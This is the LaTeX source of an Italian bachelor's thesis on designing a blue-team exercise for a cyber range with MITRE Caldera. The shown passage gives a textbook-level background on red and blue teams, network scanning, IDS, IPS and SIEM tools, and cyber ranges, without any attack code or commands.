\documentclass[oneside]{sapthesis}

\usepackage{inputenc}
\usepackage[italian]{babel}

\usepackage{microtype}
\usepackage{indentfirst}
\usepackage{enumitem}
\usepackage{titlesec}
\usepackage{tocloft}
\usepackage[nottoc, notlof, notlot]{tocbibind}

\usepackage{graphicx}
\usepackage{wrapfig}
\usepackage{lettrine}
\usepackage{fvextra}
\usepackage{fancyvrb}
\usepackage{xcolor}
\usepackage{float}

\usepackage{verbatim}
\usepackage{listings}

\usepackage[backend=biber,style=numeric,citestyle=numeric, url=true, sorting=none]{biblatex}
\addbibresource{bibliography.bib}

\usepackage[utf8]{inputenx}
\usepackage[hidelinks]{hyperref}
\usepackage{csquotes}

\title{Sviluppo di un'esercitazione blue team per un cyber range}
\author{Diego Antonio Guzman Aguirre}
\IDnumber{2006301}
\courseorganizer{Facolt\`a di Ingegneria dell'Informazione}
\course{Corso di Laurea Triennale in Informatica}
\submitdate{2024/2025}
\copyyear{2025}
\advisor{Prof. Angelo Spognardi}
\authoremail{dieguz1507@gmail.com}
\examdate{22 Ottobre 2025}
\examiner{Alessandro Mei}
\examiner{Paolo Bottoni}
\examiner{Marco Raoul Marini}
\examiner{Angelo Monti}

\titleformat{\chapter}[display]
  {\normalfont\huge\bfseries}
  {\chaptername\ \thechapter}
  {0.6cm}
  {\Huge\bfseries}

% Get the first letter of the thesis long 2 lines
\renewcommand{\cftchapdotsep}{\cftdotsep}
\renewcommand{\LettrineTextFont}{\normalfont}
\renewcommand{\DefaultLoversize}{0.1}
\setlength{\DefaultFindent}{0.1em}
\setlength{\DefaultNindent}{0em}
\setcounter{DefaultLines}{2}
\linespread{0.9}

\DeclareBibliographyDriver{article}{%
  \printnames{author}%
  \newunit\newblock
  \textbf{\printfield[titlecase]{title}}%
  \newunit\newblock
  \iffieldundef{url}{}{\\\printfield{url}}%
}


\begin{document}

\frontmatter
\maketitle

\begin{abstract}
La seguente relazione presenta il lavoro svolto durante il tirocinio interno sotto la supervisione del professor Angelo Spognardi, guida del gruppo Network Security Lab del Dipartimento di Informatica dell'Università "La Sapienza" di Roma.\\
L'obiettivo principale del tirocinio è stato sviluppare un possibile scenario di un attacco informatico da poter replicare in un ambiente virtuale, conosciuto anche come cyber range, in modo da consentire ad un blue team di tentare l'individuazione dell'exploit nel sistema vittima e poter fornire un resoconto dell'individuazione.\\[1.5em]
Come strumento utile e fondamentale per realizzare il lavoro svolto, è stato fatto uso di MITRE Caldera, un framework capace di emulare o simulare il comportamento di un avversario durante un attacco a un'infrastruttura, in particolare automatizza le fasi di una kill chain e per questo motivo è un ottimo assistente da affiancare a degli specialisti in Red Team per quanto riguarda il test sui sistemi di sicurezza.\\
Sviluppata per la prima volta nel 2017, Caldera basa i suoi tool sul framework MITRE ATT\&CK: un progetto creato da Mitre Corporation, rilasciato nel 2013 e nato con lo scopo di fornire una linea guida per classificare e descrivere attacchi informatici o intrusioni di gruppi APT conosciuti, classificandoli in base al loro TTP \textit{(Techniques, Tactics \& Procedures)} e dividendoli nelle varie fasi della kill chain.\\
Per emulare l'agente vulnerabile da attaccare, è stata programmata una macchina virtuale tramite il software \textit{Oracle VirtualBox} in cui è stato installato un sistema operativo Windows 10 Pro munito di Microsoft SQL server (\textsc{MSSQL}), mentre il server che ospita Caldera è stato configurato in una macchina Linux Ubuntu con relativi package in più scaricati per la buona riuscita del laboratorio.\\[1.5em]
L'obiettivo principale del lavoro svolto è quello di sensibilizzare persone ed aziende sulla vulnerabilità e il rischio dei propri sistemi. In un mondo in cui si verificano 2200 attacchi cyber al giorno, è di vitale importanza salvaguardare i propri assets e i propri dati, ponendo principale enfasi sull'attenzione e la buona configurazione dei sistemi usufruiti personalmente o resi disponibili a una clientela.\\
Con le risorse rese disponibili tramite l'intelligenza artificiale, la documentazione in continuo aggiornamento di MITRE offre una risorsa molto importante per i blue team all'interno delle aziende, in special modo se affiancati a framework quali lo stesso Caldera; in questo tirocinio sono stati sviluppati solo un paio di use cases, con l'intenzione di rendere disponibile la macchina alle organizzazioni che vogliono mettere alla prova la capacità dei propri team.

\end{abstract}

\mainmatter

\tableofcontents

\chapter{Introduzione}
\lettrine[lines=2]{S}{econdo} le indagini effettuate dall'Associazione Italiana per la Sicurezza Informatica (CLUSIT) e racchiuse nel loro rapporto 2025 sulla Cybersecurity in Italia e nel mondo, negli ultimi 5 anni il numero degli incidenti globali rilevati è cresciuto esponenzialmente passando in media mensile dai 156 del 2020 ai 295 del 2024 (+27\% dal 2023 al 2024). Un 80\% di questi incidenti sono ritenuti "gravi" o "critici".\cite{clusit}\\[1em]
Inoltre, con l'ascesa dell'AI nel panorama della cyber sicurezza, molte sono le aziende del settore ad aver iniziato ad utilizzare i vantaggi e i tool resi disponibili dalla nuova tecnologia ormai in continua crescita nel mercato globale. In Italia in particolare si stima una dimensione del mercato di 4.12 miliardi USD per il 2025 con la previsione di toccare i 7.59 miliardi entro il 2030.\cite{mordor} \\[1em]
L'intelligenza artificiale svolge un ruolo fondamentale nell'identificazione di minacce o nell'automazione di compiti quali analisi dei log o scanning di vulnerabilità ma, il rovescio della medaglia è che l'intelligenza artificiale viene sfruttata anche dalle organizzazioni di Advance Threat Persistance (APT) per creare dei tipi di attacco che sfruttano, in special modo, il Natural Language Processing\footnotemark{} ed implementare minacce sempre più efficaci e ostili, anche verso il più vigilante degli utenti.

\begin{figure}[htbp]
    \centering
    
\includegraphics[width=0.7\linewidth]{images/Clusit_graph.png}
    \caption{Andamento incidenti anno 2020 - 2024 \cite[]{clusit}} 
\end{figure}

\footnotetext{NLP - Sottocampo dell'Intelligenza Artificiale, utilizza il machine learning per consentire al computer di poter comprendere e comunicare con il linguaggio umano.}

\begin{figure}
    \centering
    
\includegraphics[width=0.5\linewidth]{images/Mordor_stat.png}
    \caption{Dimensione del mercato AI in Italia 2025 e 2030 \cite{mordor}}
\end{figure}

\section{Concetti fondamentali}
Fin dall'alba dei conflitti militari, è stato di vitale importanza l'usufruire di simulazioni e wargames in modo da addestrare e preparare gli ufficiali ad imminenti minacce e rafforzare le proprie difese.\\
I termini "Red Team" e "Blue Team" fanno la loro prima comparsa ufficiale durante gli anni 60', il Dipartimento di Difesa degli Stati Uniti (DoD) usò i suddetti termini per riferirsi ad astrazioni strutturate usate per testare strategie di alto livello.

    \subsection{Red Team\label{red}}
    Un Red Team è un gruppo di esperti in sicurezza informatica all'interno di un'organizzazione, con lo scopo di violare le sue stesse misure di difesa e seguendo una determinata policy. In questo modo si identificano le vulnerabilità prima che queste vengano sfruttate da entità malevole.\\
    Lo scopo principale della squadra consiste nel riuscire ad emulare, nel modo più realistico possibile, un attacco all'organizzazione da parte di un attore maligno. L'organizzazione, da parte sua, grazie al lavoro del team, sarà in grado di vedere all'opera la struttura delle proprie difese, annotare come esse rispondono ad un'improvvisa aggressione ed eventualmente migliorarle o colmare delle lacune riscontrate durante i test tramite delle patch di sicurezza.\\[1.5em]
    {\bfseries\Large Tattiche e Strategie}\\[1.5em]
    La squadra si avvale di diverse tattiche, tecniche e procedure (TTPs) durante lo svolgimento dell'operazione. È compito dell'enterprise stabilire i limiti e le regole di ingaggio standard da utilizzare durante il lavoro. Di seguito, una lista delle fasi più comuni durante gli attacchi:
    \begin{itemize}
        \item \textbf{Social Engineering:} Mira principalmente i dipendenti di un'azienda, consiste nell'arte di manipolare le persone toccando leve psicologiche e comportamentali, in modo da ottenere informazioni sensibili riguardo l'environment target. Si differenzia dalle altre tecniche perchè agisce sulle debolezze del singolo individuo: il cybercriminale inizia col raccogliere dati personali, studiare le abitudini, costruire un rapporto di fiducia apparente e, infine, colpire un'area emotiva sensibile della vittima bersaglio (paura, curiosità, emergenza, ecc...) in modo da costringerla a rivelare delle informazioni vitali per il proseguimento dell'infiltrazione.
        \item \textbf{Network Scanning:} È considerato il primo passo verso l'infiltrazione perché permette di ricostruire il sistema di rete e sfruttare le vulnerabilità riscontrate; esso consiste nel ricercare tutti i servizi TCP e UDP disponibili negli host della rete bersaglio con annessi dati riguardanti il sistema operativo, server database presenti e simili.\\
        Vi sono due principali strumenti utilizzati per la fase di scanning:
        \begin{enumerate}
            \item \textbf{ARP:} Un protocollo di rete situato al livello di collegamento del modello di rete ISO/OSI, permette di mappare degli indirizzi IP della rete LAN agli indirizzi MAC fisici dei dispositivi collegati.\\
            È possibile sfruttare delle richieste ARP broadcast in modo da interagire con chiunque abbia un indirizzo nella rete; dopo aver inviato un segnale ad un determinato host, si incrementa di uno l'indirizzo IP di destinazione fino a scandirli tutti. Alla fine, gli host con un IP corrispondente risponderanno alla richiesta. Il principale svantaggio di questo metodo consiste nel doversi limitare alla sottorete in cui viene effettuata la scannerizzazione: ad esempio, se la squadra si trova in una rete 10.10.10.0/24\footnotemark mentre il target è in 172.172.172.0/24, dalla prima famiglia di indirizzi non è possibile inviare dei segnali ARP alla seconda.\\
            In compenso, è molto veloce, efficiente e nella maggior parte di casi non genera nessun segnale d'allarme.\\[1.5em]
            \begin{figure}[H]
                \vspace{-1.5em}
                \centering
                
\includegraphics[width=\linewidth]{images/ARP.jpeg}
                \caption{ Esempio di ARP request in Wireshark }
            \end{figure}
\footnotetext{Notazione CIDR - Rappresenta la famiglia di indirizzi disponibili nella rete composta dai primi 24 bit. Si estende da 10.10.10.1 fino a 10.10.10.254.}
            \item \textbf{NMAP:} Letteralmente \textit{"Network Mapper"}, è il tool più popolare utilizzato se stiamo parlando di scanning della rete ed identificazione delle debolezze; difatti è il comando cardine utilizzato nel mio lavoro di progettazione della VM vulnerabile nonché un alleato prezioso per i Red Teams.\\
            Rilasciato per la prima volta nel 1997 da Gordon Lyon, riesce ad identificare hosts e servizi all'interno di una rete tramite l'invio di pacchetti (per esempio, TCP o ICMP) e l'analisi delle risposte da parte dei sistemi. Numerose sono le sue funzionalità, che possono essere sfruttate al meglio aggiungendo ad un semplice comando degli scripts per conoscere le difese della vittima quali firewall, sistema operativo, porte di servizi aperte, ecc...\cite{nmap}\\
            \begin{figure}[H]
                \centering
                
\includegraphics[width=0.7\textwidth]{images/NMAP_Wiki.png}
                \caption{Esempio di comando NMAP}
            \end{figure}
        \end{enumerate}
        \item \textbf{Vulnerabilty exploit:} Una volta completato l'ingresso nella rete aziendale, grazie alle prime due fasi citate, è ora possibile identificare e sfruttare al meglio altri buchi di sicurezza. Nella maggior parte dei casi, è necessario lasciare una via di accesso libera, comunemente detta \textit{"Backdoor"}, in modo da riuscire a bypassare i normali controlli di sicurezza e autenticazione e mantenere il login nell'infrastruttura. Una volta nella rete, ha inizio il vero monitoraggio dell'incident response che il Blue Team è capace di attuare; si inizia con il manomettere i sistemi ed ostacolare le funzioni offerte dall'azienda minacciata nonché la sottrarre informazioni sensibili dei clienti o dello stesso personale.
        \item \textbf{Physical security test:} Finora si è parlato di difese digitali, ma bisogna porre particolare attenzione anche alla sicurezza fisica dell'enterprise target.\\ 
        L'entrata ad aree sensibili è controllata da sistemi di autenticazione, convalidate spesso tramite chiavi di accesso magnetiche, passwords o addirittura biometriche. Il lavoro del Red Team può, quindi, includere misure quali il pedinamento o il furto in modo da entrare in possesso di lasciapassare e poter accedere a stanze altrimenti off-limits.\cite{red_team}\\
    \end{itemize}

    \noindent{\bfseries\Large Red Team vs Pentesting}\\[2em]
    Spesso il concetto di Red Teaming richiama l'idea simile, ma non equivalente, di Penetration Test; tuttavia vi sono delle differenze sostanziali che distinguono le due operazioni.\\
    Per definizione, il Penetration Test consiste in una serie di metodologie e tecniche con l'obiettivo di individuare il maggior numero di vulnerabilità in una rete; questo permette di mettere in evidenza quanto l'organizzazione sia a rischio e come gli attaccanti possano fare uso delle debolezze all'interno del sistema se non si applica al più presto una patch di sicurezza o un piano di gestione. Dalla suddetta descrizione, si evince la mancanza di un elemento fondamentale nella valutazione della protezione della propria infrastruttura in un'azienda cliente: l'abilità di riuscire a rilevare e prontamente reagire a uno specifico attacco informatico in corso. In base alla richiesta dunque, si può decidere se attuare un'operazione di Pentest o Red Teaming.\\[1em]
    \begin{minipage}[t]{0.5\textwidth}
        \centering
        \textbf{Red Teaming}
        \begin{itemize}
            \item Emula il comportamento di un avversario
            \item Usata per testare la resistenza di un enterprise a un attacco 
            \item Fornisce risultati utilizzabili nel rilevamento
        \end{itemize}
    \end{minipage}
    \begin{minipage}[t]{0.5\textwidth}
        \centering
        \textbf{Pentest}
        \begin{itemize}
            \item Ambito definito
            \item Identifica e sfrutta vulnerabilità
            \item Fornisce report sui ritrovamenti
            \item Più orientata alla prevenzione
        \end{itemize}
        \vspace{1.5em}
    \end{minipage}
    Le figure più influenti nel panorama della sicurezza informatica comprendono l'importanza dell'investimento nel settore di cybersecurity della propria azienda; è una spesa che nel lungo andare darà i suoi frutti, rafforzando le proprie difese ed evitando violazioni che rischiano di essere molto più costose di quanto si è investito.\\
    Un'operazione di Red Teaming è molto più completa, coinvolge molte più persone e risorse; inoltre, spesso e volentieri, può durare mesi interi; quindi, ci si può aspettare un costo maggiore. Difatti in media si stima una spesa dai 15.000€ in su; d'altro canto, un Penetration Test con un ambito ben definito costa dai 10.000€ in su.
    
    \subsection{Blue Team\label{blue}}
    Un Blue Team siede dalla parte opposta dell'esercizio di cybersecurity; si tratta di una squadra, spesso composta dal team di sicurezza dell'organizzazione, che utilizza gli strumenti e i servizi messi a disposizione da quest'ultima per rispondere ad un attacco imminente da parte del Red Team, ergo, sono specialisti in manovre di difesa. Spesso capita che l'enterprise non mandi nessun promemoria sull'inizio di una valutazione dei sistemi da parte del Red Team, facendo credere al Blue Team di essere bersaglio di una reale minaccia.\\
    Gli obiettivi principali di questa squadra risiedono principalmente nell'analisi e rivelazione di potenziali incidenti tramite la loro impronta digitale o nella risk intelligence; quando l'enterprise non è sotto attacco, si occupa di effettuare controlli regolari delle varie sotto-infrastrutture e, infine, come già detto, della preparazione del personale ad eventuali pericoli; questa attività è fondamentale e ad occuparsi di essa è proprio il Blue Team con dei briefing specializzati o corsi di apprendistato.\cite{blue_team}\\[1.5em]
    {\bfseries\Large{Competenze e Tools}}\\[2em]
    Le abilità dei singoli membri del team si concentrano sulla prevenzione, identificazione e risposta ai più recenti threat esistenti. Ma vi sono dei concetti chiave che ogni squadra deve evidenziare e mettere sul tavolo durante un incarico:
    \begin{itemize}
        \item \textbf{Network security:} Assicurare una forte sicurezza nell'infrastruttura di rete è, forse, l'incarico più cruciale e richiede profonde conoscenze in protocolli di rete, firewalls e VPNs.
        \item \textbf{Security tool proficiency:} Essere in grado di installare in ogni endpoint della rete dei sistemi di sicurezza essenziali, in grado riconoscere una minaccia dalla sua impronta digitale. Di seguito una lista degli strumenti essenziali:
        \begin{enumerate}
            \item \textbf{IDS:} Un Intrusion Detection System è un software o hardware capace di scovare la presenza di un intruso nel sistema o in un host grazie a tre componenti principali: sensori impiegati nella raccolta di pacchetti di dati o logs, analizzatori in grado di rilevare un agente esterno nel sistema ed un'interfaccia utente da cui è possibile configurare lo strumento. È possibile piazzare l'IDS in diversi punti strategici dell'infrastruttura di rete ed una sua dettagliata progettazione permette di identificare ed espellere un eventuale intruso prima che questi provochi danni alla rete.\\
            La scoperta di un estraneo è concettualmente legata alla supposizione che questo avrà un comportamento diverso da quello di un utente legittimo del network e alla rilevazione dell'impronta digitale che lasciano determinati pacchetti pericolosi.
            \item \textbf{IPS:} Un Intrusion Prevention System è un'estensione dell'IDS sopra citato. Essa include la capacità di effettuare un tentativo di blocco o prevenzione di un'attività illecita individuata. I metodi di rilevamento sono analoghi a quelli dell'Intrusion Detection System; una volta scoperto, è possibile fermare l'aggressore mediante diversi metodi: blocco o rimozione del flusso di contenuto dannoso, attivazione di altri dispositivi di sicurezza ed applicazione della security policy dell'organizzazione.
            \item \textbf{SIEM:} Acronimo per Security Information \& Event Management, permette ai team di sicurezza aziendali di eseguire una serie di funzioni di aggregazione, consolidamento ed ordinamento dei dati al fine di individuare minacce ed aderire ai requisiti di conformità delle informazioni.\\
            Alcune tra le funzionalità principali di questi sistemi sono: la gestione dei logs, la correlazione ed analisi degli eventi, monitoraggio ed avvertimenti di sicurezza e gestione delle conformità. 
        \end{enumerate}
        \item \textbf{Incident response:} Durante lo svolgimento di un attacco informatico, il membro della squadra deve saper riconoscere la strategia dell'attaccante ed i suoi TTPs. Questa abilità richiede la raccolta di informazioni da parte dei dispositivi precedentemente installati, i quali forniscono logs sui footprints delle tecniche in uso.
        \item \textbf{Threat Intelligence:} Un membro di un Blue Team deve essere in grado di individuare vulnerabilità e possibili punti di inizio di un vettore d'attacco nella rete, suggerire all'utente un eventuale rimedio a questo problema o agire autonomamente e neutralizzare il rischio.
    \end{itemize}

    \subsection{Cyber Range}
    Come spiegato al principio, gli attacchi cyber stanno avendo statisticamente la meglio sulle operazioni di risposta da parte dei team delle aziende. Questa è una situazione nata dalle poche risorse economiche investite e l'insufficiente preparazione degli impiegati, spesso dovuta a una mancata valutazione del rischio. Tale informazione viene spesso realizzata solo dopo che i sistemi sono già stati compromessi. Il concetto si estende agli utenti individuali essendo anch'essi potenziali bersagli, soprattutto se occupano una posizione di rilievo nell'azienda.
    I cyber range vengono in soccorso di questa lacuna, essendo degli ambienti virtuali per la formazione, la verifica e la ricerca sulla cybersecurity. Essi simulano reti e attacchi informatici reali. Consentono di addestrare il proprio personale nonché analizzare problematiche abbastanza complesse all'interno di un environment sicuro ed isolato; è possibile configurare anche minacce specifiche e comuni quali ransomware o phising.\\
    Il National Institute of Standards and Technology (NIST) è un'azienda non regolamentare, fondata nel 1901, che promuove l'innovazione attraverso il progresso della scienza, degli standard e della tecnologia delle misurazioni ed il suo Cybersecurity Framework è spesso utilizzato nello sviluppo dei cyber range: si tratta di standard, linee guida e best practice per aiutare le organizzazioni a migliorare la loro gestione dei rischi per la sicurezza.\cite{ibm_cyberRange}\\[1.5em]
    {\bfseries\Large{Struttura tecnica}}\\[1em]
    I componenti tecnici che collaborano per creare un ambiente realistico e monitorato per le varie esercitazioni sono:
    \begin{description}
        \item[RLMS ${\rightarrow}$] Il Range Learning Management System combina le caratteristiche di un semplice sistema di gestione dell'apprendimento (LMS) con le esigenze richieste per lo sviluppo del cyber range. Si tratta del componente fulcro del monitoraggio dei progressi e della valutazione delle pratiche svolte.
    \end{description}
    \begin{figure}[H]
        \centering
